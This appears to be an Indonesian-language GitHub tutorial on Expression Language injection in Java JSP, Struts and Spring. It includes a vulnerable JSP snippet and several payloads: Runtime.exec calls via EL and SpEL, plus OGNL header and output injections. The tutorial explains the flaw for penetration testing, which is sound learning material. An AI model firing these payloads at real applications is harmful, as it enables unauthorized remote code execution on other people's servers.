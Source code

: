 #  EL Injection- JSP Vulnerability 

## 🧠 Apa Itu EL Injection?

**Jadi gini... EL Injection (Expression Language Injection) itu semacam celah keamanan yang biasa nongol di aplikasi Java, apalagi yang pakai teknologi kaya JSP, JSF, atau framework Java lain yang mendukung Expression Language (EL).
Nah, EL ini tuh semacam cara buat “nyelipin” logika di halaman web. Contohnya:**

```jsp
Hello, ${user.name}
```
Harusnya ini cuma nampilin nama user doang, kan?

Tapi masalahnya, kalau input dari user langsung dimasukin ke EL tanpa disaring dulu, itu kayak ngasih akses buat user nakal nulis kode sendiri di situ 😱

## 💥 Contoh Kasus
Bayangin ada form input nama:

```jsp
Hello, ${param.username}
```
Kalau kamu isi `username=Gamer123`, maka hasilnya:

```jsp
Hello, Gamer123
```

Tapi kalau kamu iseng masukin:
```bash
${7*7}
```
Boom! Halaman bisa jadi:
``` bash
Hello, 49
```
Itu tandanya EL Injection berhasil! Kamu baru aja ngejalanin ekspresi matematika lewat input user.

## oke,kita masuk ke contoh lain dari kerentanan EL Injection di JSP:

```jsp
<%
    String userInput = request.getParameter("input");
%>
<p>Result: ${userInput}</p>
```

Jika `userInput` tidak disanitasi, attacker bisa memasukkan payload EL untuk mengeksekusi ekspresi berbahaya.
Untuk implementasi pentest, Anda bisa coba mengirimkan payload seperti:
``` bash
${''.class.forName('java.lang.Runtime').getRuntime().exec('calc')}
```

ayload EL Injection yang spesifik untuk beberapa framework Java populer yang menggunakan Expression Language, seperti Apache Struts, Spring, atau JSF.

Misalnya, untuk Apache Struts 2 yang rentan EL Injection, payload berikut bisa digunakan untuk mengeksekusi perintah sistem (jika kerentanan ada):
``` bash
%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Injection','vulnerable')}
```

Payload ini mencoba menambahkan header HTTP sebagai bukti eksekusi EL.

Untuk payload yang menjalankan perintah sistem (berisiko tinggi dan harus dengan izin):
``` bash
%{#runtime=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].getWriter(),#runtime.println('Injected'),#runtime.flush(),#runtime.close()}
```

### Untuk Spring Expression Language (SpEL), payload contoh:
``` bash
#{T(java.lang.Runtime).getRuntime().exec('calc')}
```
Payload ini bisa dimasukkan ke parameter input yang rentan.
